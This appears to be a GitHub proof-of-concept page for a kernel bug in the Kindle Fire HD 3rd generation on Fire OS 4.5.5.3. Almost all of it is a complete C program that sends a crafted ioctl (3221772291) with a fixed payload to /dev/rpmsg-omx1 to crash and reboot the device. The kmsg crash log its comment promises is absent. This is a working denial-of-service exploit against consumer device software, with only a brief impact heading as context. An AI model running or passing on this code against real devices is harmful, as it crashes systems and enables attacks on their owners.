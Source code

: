<languages  />

<translate>

漏洞影響
--------

</translate>

    Fire OS 4.5.5.3

POC
---

    /*
     * This is poc of Kindle Fire HD 3rd
     * A bug in the ioctl interface of device file /dev/rpmsg-omx1 causes the system crash via IOCTL 3221772291.
     * Related buggy struct name is gcicommit.
     * This Poc should run with permission to do ioctl on /dev/rpmsg-omx1.
     *
     * The fowllwing is kmsg of kernel crash infomation:
     *
     *
     */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/rpmsg-omx1";
    static command = 3221772291;

    int main(int argc, char **argv, char **env) {
        unsigned int payload[] = { 0xb5d18de2, 0xf6e48a17, 0x9179c429, 0x89a32e03 };

            int fd = 0;
            fd = open(driver, O_RDWR);
            if (fd < 0) {
                printf("Failed to open %s, with errno %d\n", driver, errno);
                system("echo 1 > /data/local/tmp/log");
                return -1;
            }

            printf("Try open %s with command 0x%x.\n", driver, command);
            printf("System will crash and reboot.\n");
            if(ioctl(fd, command, &payload) < 0) {
                printf("Allocation of structs failed, %d\n", errno);
                system("echo 2 > /data/local/tmp/log");
                return -1;
            }
            close(fd);
            return 0;
    }
